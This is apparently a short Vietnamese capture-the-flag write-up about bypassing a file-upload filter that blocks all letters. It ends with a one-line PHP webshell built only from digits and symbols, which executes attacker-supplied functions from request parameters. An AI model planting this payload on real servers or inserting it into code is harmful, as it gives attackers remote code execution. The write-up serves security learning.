 ![alt text](image-23.png)
- Nói rằng ko được phép upload hình ảnh có chữ cái tức là những: File chứa ký tự alphabet (a-zA-Z), không được phép upload. Sau một hồi mình cứ ngồi mày mò tìm payload trên payloadAllTheThing thì không có gì xảy ra vì mỗi webshell đều có kí tự chữ cái.
- Và mình nghỉ rằng là hầu hết các WAF lọc rất nhiều ký tự có sẵn khiến việc khai thác trở nên khó khăn hơn. Và trong đó các Các ký tự phổ biến bị chặn hoặc lọc là a-zA-Z. Lúc đầu đã có những shell không phải chữ và số nhưng những shell tôi thấy đều có một điểm chung là chúng cần dấu ngoặc kép để tạo thành một chuỗi một lần để tạo ra các chữ cái từ chuỗi đó.
- Sau quá trình tìm kiếm một số case tầm khoảng 2-3h đồng hồ tôi phát hiện được 1 shell có thể bao gồm toàn kí tự chữ số và kí tự đặc biệt không có chữ cái và có thể vượt qua bộ lọc của server.
### Khai thác
```php
<?=$_=[]..1;$_=$_[1].$_[1].$_[1].$_[3]^-575..-1;$$_[0]($$_[1]);
```